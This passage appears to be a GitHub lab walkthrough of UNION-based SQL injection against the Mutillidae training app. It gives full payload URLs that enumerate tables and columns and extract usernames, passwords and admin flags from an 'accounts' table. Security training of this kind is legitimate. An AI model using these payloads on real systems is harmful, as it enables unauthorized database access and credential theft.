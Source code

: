 ![etex22](https://github.com/MDINESH220305/sqlinjection/assets/162429215/2a230bae-8cf7-42f3-becb-c918944fb31d)


The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![etex23](https://github.com/MDINESH220305/sqlinjection/assets/162429215/7743acfd-eff4-46e5-966a-91798468bf82)


The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract dat

a.![etex24](https://github.com/MDINESH220305/sqlinjection/assets/162429215/483a3c08-1d1c-4632-9131-c236c1b8d4b5)


In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![etex25](https://github.com/MDINESH220305/sqlinjection/assets/162429215/0357df23-9b5a-405e-b931-4abfab75837f)



The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 



![etex26](https://github.com/MDINESH220305/sqlinjection/assets/162429215/052b7e46-d8dc-4768-b139-c72b973f3176)



Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
